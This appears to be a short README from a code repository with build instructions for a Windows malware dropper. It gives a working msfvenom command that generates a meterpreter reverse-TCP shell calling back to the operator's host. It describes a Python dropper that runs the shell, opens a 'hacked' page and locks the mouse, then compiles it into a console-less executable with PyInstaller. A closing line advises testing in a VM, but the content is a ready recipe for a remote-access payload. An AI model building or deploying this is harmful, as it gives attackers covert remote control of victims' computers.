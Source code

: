 Build Instructions

1.) Generate Your Reverse Shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o shell.exe
```

2.) Create the Dropper

Use the provided `dropper.py` script. It:
- Runs `shell.exe`
- Opens `hacked_template.html`
- Locks the mouse for a few seconds

3.) Compile to EXE

```bash
pip install pyinstaller
pyinstaller --noconsole --onefile dropper.py
```

4.) Test in a Safe VM

Use a separate Windows VM. DO NOT run on your host.
